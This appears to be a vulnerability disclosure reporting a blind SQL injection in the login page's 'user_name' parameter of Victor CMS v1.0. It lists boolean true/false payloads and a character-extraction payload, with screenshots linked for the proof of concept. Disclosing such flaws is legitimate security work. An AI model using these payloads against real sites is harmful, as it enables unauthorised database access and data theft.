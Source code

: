 * VULNERABLE: SQL injection vulnerability exists in VictorCMS . An attacker can    inject query in “/CMSsite/includes/login.php" via the "user_name" parameters.
* Product: Victor CMS v1.0
* Impact: Allow attacker inject query and access , disclosure of all data on the   system.
* Payload Boolean true: test' or '1'='1
* Payload Boolean false: test' or '1'='2
* Payload exploit example:  test' or (ascii(substr((select(database())),1,1))<127)--+-
* Proof of concept (POC):

 ![image](https://user-images.githubusercontent.com/57030243/159733008-f33cb354-b15c-438a-9a8c-88cd104abc6d.png)
* You see Whether the user name is correct or not, the response status of the returned package is different 
* Payload Boolean true: user_name=test'+or+'1'='1

![image](https://user-images.githubusercontent.com/57030243/159733060-9a3e70eb-2c17-448c-86c9-0ecb3b595057.png)
* Payload Boolean false: user_name=test'+or+'1'='2

![image](https://user-images.githubusercontent.com/57030243/159733129-f714494d-5e8a-4a20-8d74-ae1b4f67969e.png)
* Exploit:

![image](https://user-images.githubusercontent.com/57030243/159733158-1e9cb407-058c-4e77-b38c-17937aeb0449.png)



